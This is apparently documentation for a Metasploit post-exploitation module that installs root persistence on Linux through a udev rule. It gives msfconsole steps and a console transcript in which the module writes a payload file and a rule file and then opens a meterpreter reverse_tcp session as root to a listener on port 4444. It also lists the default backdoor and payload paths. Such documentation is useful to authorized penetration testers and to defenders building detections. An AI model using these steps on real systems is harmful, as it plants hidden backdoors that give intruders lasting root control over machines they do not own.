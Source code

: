 This is a post module that performs a persistence installation on a Linux system using [udev](https://en.wikipedia.org/wiki/Udev).
The persistence execution with be triggered with root privileges everytime a network interface other than l0 comes up.

## Verification Steps

  1. Start msfconsole
  2. Obtain a session on the target machine
  3. `use exploit/linux/local/udev_persistence`
  4. `set session -1`
  5. `exploit`

## Module usage

```
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > use exploit/linux/local/udev_persistence
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/udev_persistence) > set session -1
session => -1
msf6 exploit(linux/local/udev_persistence) > exploit

[*] /usr/bin/udev-check-updates written
[*] /lib/udev/rules.d/99-update.rules written
msf6 exploit(linux/local/udev_persistence) > 
[*] Sending stage (3045380 bytes) to 172.18.49.39
[*] Meterpreter session 2 opened (172.18.52.45:4444 -> 172.18.49.39:41848) at 2024-09-13 03:59:47 -0400
msf6 exploit(linux/local/udev_persistence) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > 
```

## Options

### BACKDOOR_PATH

Specify the path of the file containing the udev rules. (Default: /lib/udev/rules.d/99-update.rules)

### PAYLOAD_PATH

Specify the name of the payload to execute upon persistence. (Default: /usr/bin/udev-check-updates)

